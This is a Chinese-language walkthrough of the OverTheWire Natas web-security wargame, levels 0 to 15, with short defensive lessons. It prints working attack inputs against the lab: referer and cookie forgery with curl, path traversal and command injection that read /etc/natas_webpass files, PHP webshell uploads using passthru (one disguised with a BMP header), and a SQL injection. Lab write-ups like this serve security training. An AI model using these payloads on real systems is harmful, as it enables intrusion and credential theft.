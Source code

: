 # natas

## 0-1

基本的看源代码方法：右键--查看网页源代码。

## 1-2

禁用了右键，但是可以`F12`或者`Ctrl-U`查看源代码。

## 2-3

源代码里有`/files/pixel.png`，指向了一个`PNG`文件。

查看`/files/`目录发现`user.txt`得到密码。

**结论**：不要公开不该公开的文件和目录。

## 3-4

源代码注释写到`Not even Google will find it this time`，不可被搜索到。

直接使用`site:`进行搜索即可找到目录。

同时“不可被搜索到”说明存在`robots.txt`阻止搜索引擎，查看可以找到目录。

## 4-5

显示提示：

```
You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" 
```

说明获取密码需要从指定网站访问，但是该指定网站不可直接访问，使用`curl -e`伪造`referer`即可：

```shell
curl -u "natas4:***" -e "http://natas5.natas.labs.overthewire.org/" "http://natas4.natas.labs.overthewire.org/"
```

## 5-6

显示提示：

```
Access disallowed. You are not logged in
```

想到一般网站的登陆使用`cookie`实现，发现`cookie`中有一项`loggedin=0`，使用`curl -b`伪造此`cookie`即可：

```shell
curl -u "natas5:***" -b "loggedin=1" "http://natas5.natas.labs.overthewire.org/"
```

**结论**：要熟练掌握`ssh`，`curl`等指令伪装身份和伪造数据。

## 6-7

发现要`input secret`。

查看源码发现一段`PHP`，引用了文件`includes/secret.inc`。

前往即可找到`secret`，输入后得到密码。

## 7-8

出现俩链接`Home`，`About`。

既然用的是`page=`，又没有做任何限制，直接`page=/etc/natas_webpass/natas8`就行了。

## 8-9

又要`input secret`。

分析一下`PHP`中有用的东西：

```php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

encodeSecret($_POST['secret']) == $encodedSecret
```

也就是说，网页把输入的`secret`依次做了`base64`、`rev`和`bin2hex`。

那么把`encodedSecret`给`hex2bin`、`rev`再`base64 -d`一下就是`secret`了。

**结论**：双向的加密方式如果公开就等同于摆设。

## 9-10

有一个`word search`功能，实现方法是一个`Bash`。

```bash
grep -i $key dictionary.txt
```

`dictionary.txt`并没有什么有价值的东西，但重点在于`$key`左右没有引号。

尝试“搜索”`--help`，果然得到了帮助页面。

那么使用`;`隔开指令，直接尝试“搜索”`; cat /etc/natas_webpass/natas10; cat`就得到密码。

## 10-11

同样是那个`search`，但是禁用了`;|&`三个字符。

所以要考虑如何巧妙应用`grep`。

`grep`可以直接搜索多文件，用法`grep "***" FILE1 FILE2 ...`。

“搜索”`"[a..z0..9]" /etc/natas_webpass/natas10`

**结论**：网站中的有权限动作不要给用户可乘之机。

## 11-12

居然可以自己设置颜色欸，还用`cookie`保存了下来。

看源代码发现`cookie`里除了`bgcolor`还存了一个`showpassword`。

分析有用的`PHP`源码：

```php
function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }
    return $outText;
}

$tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);

setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
```

上面一个是解密过程，一个是加密过程，都用到了自定义的`xor_encrypt()`函数（关于`$key`循环异或）。

按照源码把`cookie`给`base64 -d`以后得到一个$41$位字符串。

按照源码把`array`给`json_encode()`以后也得到一个$41$位字符串：

```
{"showpassword":"no","bgcolor":"#ffffff"}
```

顺次异或，得到`$key='qw8J'`。

把`no`改成`yes`加密以后用`curl`上传。

**结论**：再一次证实，双向的加密方式如果公开就等同于摆设。

## 12-13

发现可以上传一个`JPEG`。

```php
$ext = pathinfo($fn, PATHINFO_EXTENSION); 
```

这句话说明上传文件的后缀名是由`filename`决定的，而直接上传会被钦点命名为`jpg`。

所以用`curl`上次一个`php`去读密码就好了

```bash
curl -isu natas12:*** 'http://natas12.natas.labs.overthewire.org' -F filename=a.php -F "uploadedfile=@-;filename=a.php" <<< '<?php passthru("cat /etc/natas_webpass/natas13"); ?>'
```

##  13-14

发现这次会用`exif_imagetype`来检查文件是否是文件。

我们知道图像文件都是有一个特殊的头的，`exif_imagetype`就是检查头。

把`php`伪装即可，最方便的是`bmp`文件，开头加上`BM`就行了。

```bash
curl -isu natas13:****** 'http://natas13.natas.labs.overthewire.org' -F filename=a.php -F "uploadedfile=@-;filename=a.php" <<< 'BM<?php passthru("cat /etc/natas_webpass/natas14"); ?>'
```

**结论**：上传文件要控制住类型。

## 14-15

发现要输密码，实际上是干了什么呢？是把一个字符串传入`mysql_query()`了。

字符串长这样：

```php
"SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""
```

所以让这个`query`强制从中间断开然后使其直接成立，比如设定`username='" or 1 #'`，其中`#`用来把后面直接变成注释。

